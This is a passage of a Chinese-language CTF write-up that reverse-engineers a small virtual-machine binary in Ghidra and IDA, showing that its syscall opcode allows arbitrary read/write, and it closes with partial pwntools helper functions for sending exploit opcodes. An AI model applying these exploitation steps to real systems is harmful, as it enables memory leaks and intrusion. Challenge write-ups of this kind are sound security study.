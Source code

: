 
不行这要捋一下。如果我们的输入不是999999的话，主函数会一直卡在__isoc99_scanf(&format,&DAT_006020a0 + (long)local_c * 8)。ghidra里有点模糊，while循环接收输入和判断全部放在while的条件了，ida里就比较清晰。ghidra的也没错，进入while循环前先看条件，执行scanf，因为是与条件，所以执行完接收输入还会判断等不等于预期值，如果不是break。但是外面还有一个do-while语句，又进到了内层while循环，一直重复，才有不断接收输入的效果。

这么看来DAT_006020a0是我们的指令，local_c也就是DAT_0060a0b0，是输入指令的编号，用作索引。但是要注意循环内部改变local_c不会影响DAT_0060a0b0的值，local_c用作接收输入按顺序放指令，DAT_0060a0b0在FUN_004007b7用来从开头读取指令。现在再看主要逻辑函数就比较清晰了，DAT_0060a0b0 是输入内容的索引，DAT_00602088是运行时虚拟机内存DAT_0060a0c0的索引（说是虚拟机因为按照题目和分析整个程序相当于实现了一个迷你虚拟机）。那case 0的作用就是把我们输入的内容放进DAT_0060a0c0中，压栈操作。

相对的case 2就是弹栈操作，取出当前内存对应索引的值，同时索引减一。prinf也写了“pop”。搞懂几个DAT分析就不难了，case 1是相加操作。case 3终止当前程序的执行，因为main函数里面判断当DAT_00602080为0时就跳出while循环。

重点在case 4。syscall是个好东西，虽然execve被禁了，read和write可没有。0号是read，1号是write，且分析一下发现值全部可控，任意地址读写？有点快乐了。分析参数传入顺序，也就是lVar1，lVar2和lVar3，发现分别为-1，-2和-3。说明lVar3要先传入，lVar1最后传入。最后传入的参数是第一个参数，倒序传参，和32位栈调用一样一样的。掌握传参后write泄露地址不就很简单了吗？

```python
def read(fd,addr,size):
        r.sendline(push)
        
        r.sendline(str(size))
        
        r.sendline(push)
        
        
        r.sendline(str(addr))
        
        
        r.sendline(push)
        
        
        r.sendline(str(fd))
        
        
        r.sendline(call)
        
        
        r.sendline(str(0))
        
        
        r.sendline(hlt)
        
        
        r.sendline(run)
def write(fd,addr,size):
        r.sendline(push)
      
        
        r.sendline(str(size))
        
        
        r.sendline(push)
        
        
        r.sendline(str(addr))
        
        
        r.sendline(push)
        
        
        r.sendline(str(fd))
        
        
        r.sendline(call)
        
```